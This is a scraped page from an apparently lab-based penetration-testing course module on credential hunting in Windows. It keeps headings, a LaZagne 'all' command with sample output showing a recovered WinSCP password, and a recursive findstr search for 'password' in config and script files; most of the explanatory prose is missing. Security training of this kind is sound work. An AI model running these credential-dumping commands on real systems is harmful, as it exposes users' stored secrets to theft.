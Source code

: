<!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/147/section/1318
// Platform Version: V1
// Module ID: 147
// Module Name: Password Attacks
// Module Difficulty: Medium
// Section ID: 1318
// Section Title: Credential Hunting in Windows
// Page Title: Password Attacks
// Page Number: 10
-->

# Credential Hunting in Windows

**Module Name:** Password Attacks **Page Number:** 10

#### PASSWORD ATTACKS

# Credential Hunting in Windows

## Search Centric

#### Key Terms to Search

## Search Tools

![https://academy.hackthebox.com/storage/modules/147/WindowsSearch.png](https://academy.hackthebox.com/storage/modules/147/WindowsSearch.png)

#### Running Lazagne All

``` cmd-session
C:\Users\bob\Desktop> start lazagne.exe all
```

#### Lazagne Output

``` cmd-session
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

#### Using findstr

``` cmd-session
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Additional Considerations

# 

# 

#### Questions

####